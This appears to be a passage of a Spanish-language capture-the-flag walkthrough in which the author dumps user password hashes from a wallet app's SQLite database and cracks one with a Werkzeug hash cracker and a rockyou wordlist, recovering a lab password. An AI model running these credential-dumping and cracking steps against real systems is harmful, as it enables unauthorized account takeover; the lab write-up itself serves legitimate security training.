 Vamos a investigar esta base de datos en busca de credenciales o algo interesante que podamos utilizar para escalar privilegios.

```
sqlite3 instant.db
```

Mostramos las tablas.

```
sqlite> .tables
wallet_transactions  wallet_users         wallet_wallets
```

Y sacamos todos los usuarios y contraseñas.

```
sqlite> select username, password from wallet_users;

instantAdmin|pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978
shirohige|pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed
```

Obtenemos hashes cifrados con Werkzeug. Para intentar romperlos utilizaremos una herramienta `Werkzeug-Cracker`.

```
git clone https://github.com/AnataarXVI/Werkzeug-Cracker
```

Creamos un entorno virtual e instalamos las dependencias.

```
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

Metemos los hashes en archivos distintos para intentar romperlos.

```
echo 'pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978' > hash.txt
echo 'pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed' > hash2.txt
```

Lo ejecutamos con el primero...

```
python werkzeug_cracker.py -p hash.txt -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt
Cracking pbkdf2:sha256:600000$I5bFyb0ZzD69pNX8$e9e4ea5c280e0766612295ab9bff32e5fa1de8f6cbb6586fab7ab7bc762bd978 |████████████████████████████████| 929/929
```

No hemos encontrado la contraseña al menos con este diccionario. Vamos a probar con el otro.

```
python werkzeug_cracker.py -p hash2.txt -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou-25.txt
Cracking pbkdf2:sha256:600000$YnRgjnim$c9541a8c6ad40bc064979bc446025041ffac9af2f762726971d8a28272c550ed |████                            | 113/929
Password found: estrella
```
